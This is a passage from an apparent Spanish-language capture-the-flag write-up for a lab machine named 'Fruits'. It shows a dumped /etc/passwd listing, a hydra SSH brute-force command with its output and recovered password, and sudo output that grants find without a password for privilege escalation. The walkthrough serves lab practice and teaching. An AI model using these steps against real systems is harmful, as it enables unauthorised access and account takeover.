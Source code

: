 ```bash
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
_apt:x:42:65534::/nonexistent:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:998:998:systemd Network Management:/:/usr/sbin/nologin
messagebus:x:100:107::/nonexistent:/usr/sbin/nologin
sshd:x:101:65534::/run/sshd:/usr/sbin/nologin
mysql:x:102:110:MySQL Server,,,:/nonexistent:/bin/false
bananaman:x:1001:1001::/home/bananaman:/bin/bash
```

Así que vemos que existe el usuario `bananaman` y ya que no tenemos otra cosa, solo nos queda hacer fuerza bruta al `servicio ssh`

# Explotación de vulnerabilidades

Teniendo un nombre de usuario y conociendo que existe el servicio ssh activo, no toca de otra que hacer un ataque de fuerza bruta, procedo con ello y listo, objetivo logrado, acceso ssh como usuario `banaman`

Comando utilizado:
`hydra -l bananaman -P /usr/share/wordlists/rockyou.txt ssh://10.6.6.55 -t 4 -I`

Resultado obtenido:

```bash
[DATA] attacking ssh://10.6.6.55:22/
[STATUS] 32.00 tries/min, 32 tries in 00:01h, 14344348 to do in 7471:01h, 4 active
[STATUS] 28.00 tries/min, 84 tries in 00:03h, 14344296 to do in 8538:17h, 4 active
[STATUS] 26.29 tries/min, 184 tries in 00:07h, 14344196 to do in 9095:04h, 4 active
[22][ssh] host: 10.6.6.55   login: bananaman   password: VGUgdG9jYSBhIHRpIHNhY2FyIGxhIGZsYWc=
```

Buscamos conectarnos por SSH, logramos el acceso y con eso obtenemos nuestra primera flag, la del usuario.

![FlagUserBananamCTFFruits.png](https://raw.githubusercontent.com/4k4m1m3/blog/main/_posts/adjuntos/FlagUserBananamCTFFruits.png)

# Escalada de privilegios

Estando dentro, lo primero que hago es probar un: `sudo -l` lo habitual en estos caso, luego de ello, obtengo el siguiente resultado:

```bash
Matching Defaults entries for bananaman on Fruits:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User bananaman may run the following commands on Fruits:
    (ALL) NOPASSWD: /usr/bin/find
```
